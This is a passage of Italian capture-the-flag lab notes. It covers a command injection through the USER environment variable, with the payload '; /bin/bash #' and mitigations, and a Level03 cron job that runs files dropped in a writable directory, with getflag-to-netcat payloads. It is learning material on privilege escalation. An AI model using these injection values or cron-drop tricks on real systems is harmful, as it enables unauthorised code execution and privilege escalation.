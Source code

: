 TIPO: Command Injection via variabile d'ambiente (`getenv("USER")`)

```bash
export USER="; /bin/bash #"
```

### Mitigazioni

Validare/escapare USER o evitare affidarsi a `system()`, usare execve

---

## Level03 FATTO

### Consegna

> Check the home directory of **flag03** and take note of the files there.
> 
> 
> There is a crontab that is called every couple of minutes.
> 
> To do this level, log in as the **level03** account with the password level03. Files for this level can be found in /home/flag03.
> 

### Tipo Vulnerabilità

Esecuzione file non sicura via crontab

### Descrizione Exploit

```bash
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

Il sistema esegue automaticamente **tutti i file nella directory `/home/flag03/writable.d/`** con i permessi di `flag03`. Questo avviene perché su crontab di flag03 è programmata l’escuzione automatica ogni 2 minuti dello script `writable.sh`, il quale esegue tutti i file in `writeble.d`.

```bash
getflag 1> /tmp/flag.txt
chmod 700 flag.txt

oppure

nc -vln 9999 
getflag | nc 127.0.0.1 9999
```
